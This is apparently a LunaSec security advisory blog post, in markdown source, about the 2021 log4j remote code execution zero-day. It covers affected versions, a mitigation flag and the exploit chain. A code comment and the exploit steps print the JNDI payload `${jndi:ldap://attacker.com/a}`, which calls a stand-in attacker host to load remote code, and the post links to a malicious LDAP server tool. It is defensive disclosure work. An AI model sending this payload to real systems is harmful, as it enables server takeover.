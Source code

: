 ```yaml
---
title: RCE 0-day exploit found in log4j, a popular Java logging package
description: A non-security person's take on using CSPs in the real world.
slug: log4j-zero-day
authors:
- name: Free Wortley 
  title: CEO at LunaSec 
  url: https://github.com/freeqaz
  image_url: https://github.com/freeqaz.png
  tags: [zero-day, security, data-security, data-breaches]
- name: Chris Thompson
  title: Developer at Lunasec
  url: https://github.com/breadchris
  image_url: https://github.com/breadchris.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

A few hours ago, a 0-day exploit in the
popular Java logging library, `log4j`, was [tweeted](https://twitter.com/P0rZ9/status/1468949890571337731) along with a POC posted on
[GitHub](https://github.com/tangxiaofeng7/apache-log4j-poc) that results in Remote Code Execution (RCE) if
`log4j` logs an attacker-controlled string value.

Given how ubiquitous this library is, the impact of the exploit (full server control), and how easy it is to exploit,
the impact of this vulnerability is quite severe. Since this vulnerability is still very new, there isn't a CVE to track
it yet.

This post provides resources to help you understand the vulnerability and how to mitigate it for yourself.

<!--truncate-->

## Who is impacted?
Cloud services like [Steam, Apple iCloud](https://news.ycombinator.com/item?id=29499867), and apps like
Minecraft have been found to be vulnerable to this exploit. Many, many others likely are, also.

Anybody using Apache Struts is likely vulnerable. We've seen similar vulnerabilities exploited before in breaches like 
the [2017 Equifax data breach](https://en.wikipedia.org/wiki/2017_Equifax_data_breach#Data_breach).

Many Open Source projects
like the Minecraft server, [Paper](https://github.com/PaperMC/Paper/commit/b475c6a683fa34156b964f751985f36a784ca0e0),
have already begun patching their usage of `log4j`.

## Affected Apache log4j Versions

`2.0 <= Apache log4j <= 2.14.1`

At the time this post was created (December 9th, 2021) a patch is available in `log4j-2.15.0-rc1`
[here](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1).

## Temporary Mitigation

Start your server with `log4j2.formatMsgNoLookups` set to `true`, or update to `log4j-2.15.0-rc1` or later. 
(Kudos to @80vul for [tweeting](https://twitter.com/80vul/status/1468968891489857537))

## How the exploit works

### Exploit Requirements 
- A server running with a vulnerable `log4j` version (listed above),
- A remotely accessible endpoint with any protocol (HTTP, TCP, etc) that allows an attacker to send arbitrary data,
- A log statement in the endpoint that logs the attacker controlled data.

### Example Vulnerable Code

```java
import org.apache.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

### Exploit Steps
1. Data from the User gets sent to the server (via any protocol),
2. The server logs the data in the request, containing the malicious payload: `${jndi:ldap://attacker.com/a}` (where `attacker.com` is an attacker controlled server),
3. The `log4j` vulnerability is triggered by this payload and the server makes a request to `attacker.com` via "[Java Naming and Directory Interface](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)" (JNDI),
4. This response contains a path to a remote Java class file (ex. `http://second-stage.attacker.com/Exploit.class`) which is injected into the server process,
5. This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

Due to how common Java vulnerabilities such as these are, security researchers have created tools to easily exploit 
them. The [marshalsec](https://github.com/mbechler/marshalsec) project is one of many that demonstrates generating an
exploit payload that could be used for this vulnerability. You can refer to [this malicious LDAP server](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java) for an example of exploitation. 

## More information

We'll continue to update this post as information about the impact of this exploit becomes available.

For now, we're just publishing this to help raise awareness and get people patching it. Please tell any of your friends 
running Java software!
